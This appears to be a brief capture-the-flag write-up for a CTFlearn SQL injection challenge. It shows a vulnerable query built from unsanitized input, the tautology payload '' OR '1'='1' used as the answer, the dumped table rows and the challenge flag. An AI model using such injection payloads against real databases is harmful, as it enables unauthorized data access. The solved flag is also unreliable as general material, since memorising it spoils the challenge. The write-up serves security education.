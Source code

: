 # Basic-Injection
Question

See if you can leak the whole database using what you know about SQL Injections. 

link

You know what to do
Input: ...
 
Original Query: SELECT * FROM webfour.webfour where name = '$input'

Your Resulting Query: SELECT * FROM webfour.webfour where name = ''

0 results

Answer: '' OR '1'='1'

Execution
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
